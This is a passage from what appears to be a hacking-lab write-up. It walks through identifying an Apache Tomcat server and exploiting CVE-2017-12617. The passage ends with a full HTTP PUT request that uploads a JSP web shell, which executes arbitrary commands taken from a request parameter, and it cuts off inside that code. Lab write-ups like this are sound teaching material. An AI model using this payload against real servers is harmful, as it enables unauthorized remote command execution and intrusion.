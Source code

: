 Humm Apache Tomcat ? 8009 and 8080 ? There are defaults ports on Apache Tomcat. Maybe there is a vulnerability to exploit. Let's check the web server.

![](/img/hacklab-esgi-2019/20.png)

Ok so this server is used to manage all projects of the company. There is some interesting tasks on this kanban application.

* The admin-server have a admin platform which under development.
* The CEO session in admin platform need more functionnality.
* It may remain some sensible informations on project-server (maybe on users home).

So let's search deeper.

We know that application is running with Apache Tomcat. But what is the version ? By default, it's really simple to know it. It's displayed on error pages.

![](/img/hacklab-esgi-2019/21.png)

Yeah ! Got it !

The information is also available on `/docs`

![](/img/hacklab-esgi-2019/22.png)

Let's check the version on exploitdb with tool `searchsploit`

![](/img/hacklab-esgi-2019/23.png)

Ho JSP Bypass Upload. Let's check the exploit : CVE 2017-12617 : https://www.exploit-db.com/exploits/

So the exploit is a simple PUT request. Tomcat will receive and write the requested data on the server. Let's try to obtain a reverse shell.

First we need to find free filename. Here the filename `exploit.jsp` is free. Let's use 
it.

![](/img/hacklab-esgi-2019/24.png)


HTTP payload

```
PUT /exploit.jsp/ HTTP/1.1
Host: 192.168.122.201:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,pl;q=0.6
Connection: close
Content-Length: 4

<%@ page import="java.util.*,java.io.*"%>
<%
	if (request.getParameter("cmd") != null) {
		out.println("Command: " + request.getParameter("cmd") + "<br>");
		Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
		OutputStream os = p.getOutputStream();
		InputStream in = p.getInputStream();
		DataInputStream dis = new DataInputStream(in);
		String disr = dis.readLine();

		while(disr != null) {
			out.println(disr); 
			disr = dis.readLine(); 
		}
```